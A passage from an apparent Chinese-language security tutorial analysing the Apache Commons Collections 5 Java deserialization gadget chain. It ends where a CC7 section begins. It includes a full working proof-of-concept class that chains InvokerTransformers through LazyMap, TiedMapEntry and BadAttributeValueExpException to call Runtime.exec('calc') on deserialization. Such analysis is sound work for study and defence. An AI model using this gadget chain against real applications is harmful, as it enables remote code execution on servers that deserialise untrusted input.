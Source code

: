 这里又回到了去触发 `LazyMap.get()`，只不过改变了 `LazyMap.get()` 的触发方式，不再借助 `AnnotationInvocationHandler` 的反序列化触发。

在 TiedMapEntry 类中：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>``` | ```java<br>public class TiedMapEntry implements Entry, KeyValue, Serializable {<br><br>    private static final long serialVersionUID = -8453869361373831205L;<br>    private final Map map;<br>    private final Object key;<br><br>    //构造函数，显然我们可以控制 this.map 为 LazyMap<br>    public TiedMapEntry(Map map, Object key) {<br>        this.map = map;<br>        this.key = key;<br>    }<br><br>    //toString函数，注意这里调用了 getValue()<br>    public String toString() {<br>        return this.getKey() + "=" + this.getValue();<br>    }<br><br>    //跟进 getValue(), 这是关键点 this.map.get() 触发 LazyMap.get()<br>    public Object getValue() {<br>        return this.map.get(this.key);<br>    }<br><br>}<br>``` |

综上，通过 `TiedMapEntry.toString()` 可触发 `LazyMap.get()`

通过交叉引用搜索，是否存在一个类可以在反序列化过程中触发 `TiedMapEntry.toString()`，最终找到了 `BadAttributeValueExpException`：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>``` | ```java<br>public class BadAttributeValueExpException extends Exception   {<br>    private Object val;     //这里可以控制 val 为 TiedMapEntry<br><br>    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {<br>        ObjectInputStream.GetField gf = ois.readFields();<br>        Object valObj = gf.get("val", null);<br><br>        if (valObj == null) {<br>            val = null;<br>        } else if (valObj instanceof String) {<br>            val= valObj;<br>        } else if (System.getSecurityManager() == null<br>                \| valObj instanceof Long<br>                \| valObj instanceof Integer<br>                \| valObj instanceof Float<br>                \| valObj instanceof Double<br>                \| valObj instanceof Byte<br>                \| valObj instanceof Short<br>                \| valObj instanceof Boolean) {<br>            val = valObj.toString();    //这里是关键点，调用toString()<br>        } else {<br>            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();<br>        }<br>    }<br>}<br>``` |

最终实现代码：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>``` | ```java<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.keyvalue.TiedMapEntry;<br>import org.apache.commons.collections.map.LazyMap;<br><br>import javax.management.BadAttributeValueExpException;<br>import java.io.*;<br>import java.lang.reflect.Field;<br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class CommonsCollections5 {<br><br>    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {<br><br>        //Transformer数组<br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),<br>                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})<br>        };<br><br>        //ChainedTransformer实例<br>        Transformer chainedTransformer = new ChainedTransformer(transformers);<br><br>        //LazyMap实例<br>        Map uselessMap = new HashMap();<br>        Map lazyMap = LazyMap.decorate(uselessMap,chainedTransformer);<br><br>        //TiedMapEntry 实例<br>        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"test");<br><br>        //BadAttributeValueExpException 实例<br>        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);<br><br>        //反射设置 val<br>        Field val = BadAttributeValueExpException.class.getDeclaredField("val");<br>        val.setAccessible(true);<br>        val.set(badAttributeValueExpException, tiedMapEntry);<br><br>        //序列化<br>        ByteArrayOutputStream baos = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(baos);<br>        oos.writeObject(badAttributeValueExpException);<br>        oos.flush();<br>        oos.close();<br><br>        //测试反序列化<br>        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());<br>        ObjectInputStream ois = new ObjectInputStream(bais);<br>        ois.readObject();<br>        ois.close();<br><br>    }<br>}<br>``` |

## [](#4-commonscollections-7-gadget-%E5%88%86%E6%9E%90)4 CommonsCollections 7 Gadget 分析

cc7 调用链：

|     |     |     |
| --- | --- | --- |